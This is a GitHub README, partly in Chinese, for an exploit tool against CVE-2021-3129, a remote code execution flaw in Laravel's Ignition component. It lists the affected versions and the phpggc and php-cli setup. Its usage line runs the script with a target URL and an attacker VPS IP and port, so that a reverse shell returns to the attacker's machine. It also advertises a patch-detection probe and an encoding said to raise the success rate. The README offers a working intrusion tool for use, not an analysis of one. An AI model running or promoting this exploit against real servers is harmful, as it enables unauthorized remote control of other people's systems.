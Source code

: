 # CVE-2021-3129

影响范围  Laravel <= 8.4.2. Ignition <2.5.2

# Environment

注意必须放在[phpggc](https://github.com/ambionics/phpggc)的目录下运行,且要有php-cli环境

# Usage
`python3 exp.py url vps_ip vps_port` 直接在vps上接受shell即可

![Snipaste_2021-04-10_09-40-45](./Snipaste_2021-04-10_09-40-45.jpg)

![Snipaste_2021-04-10_09-43-48](./Snipaste_2021-04-10_09-43-48.jpg)

# Vulnerability analysis

https://ccdragon.cc/?p=2829

# Advantage

- 使用poc进行探测是否修复
- 新的编码方式,增加成功率